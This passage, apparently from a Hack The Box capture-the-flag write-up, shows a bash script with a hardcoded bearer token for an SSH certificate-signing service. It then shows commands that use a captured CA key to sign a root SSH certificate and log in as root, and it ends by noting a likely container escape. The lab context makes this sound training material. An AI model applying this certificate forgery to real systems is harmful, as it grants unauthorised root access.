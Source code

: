 ```bash
#!/bin/bash

usage () {
    echo "Usage: $0 <public_key_file> <username> <principal>"
    exit 1
}

if [ "$#" -ne 3 ]; then
    usage
fi

public_key_file="$1"
username="$2"
principal_str="$3"

supported_principals="webserver,analytics,support,security"
IFS=',' read -ra principal <<< "$principal_str"
for word in "${principal[@]}"; do
    if ! echo "$supported_principals" | grep -qw "$word"; then
        echo "Error: '$word' is not a supported principal."
        echo "Choose from:"
        echo "    webserver - external web servers - webadmin user"
        echo "    analytics - analytics team databases - analytics user"
        echo "    support - IT support server - support user"
        echo "    security - SOC servers - support user"
        echo
        usage
    fi
done

if [ ! -f "$public_key_file" ]; then
    echo "Error: Public key file '$public_key_file' not found."
    usage
fi

public_key=$(cat $public_key_file)

curl -s signserv.ssg.htb/v1/sign -d '{"pubkey": "'"$public_key"'", "username": "'"$username"'", "principals": "'"$principal"'"}' -H "Content-Type: application/json" -H "Authorization:Bearer 7Tqx6owMLtnt6oeR2ORbWmOPk30z4ZH901kH6UUT6vNziNqGrYgmSve5jCmnPJDE"
```

Let's use the same process from earlier to create a SSH key for root, and see if we find anything of interest there.

```
ssh-keygen -t rsa -b 4096 -f id_rsa_root
ssh-keygen -s ca-itrc -I root_key_id -n root -V +52w id_rsa_root.pub
ssh -i id_rsa_root root@itrc.ssg.htb
```

Unfortunately the root folder is empty, but we notice a different IP address mentioned (`172.223.0.3`). This probably means that we are inside a container that we need to break out of.
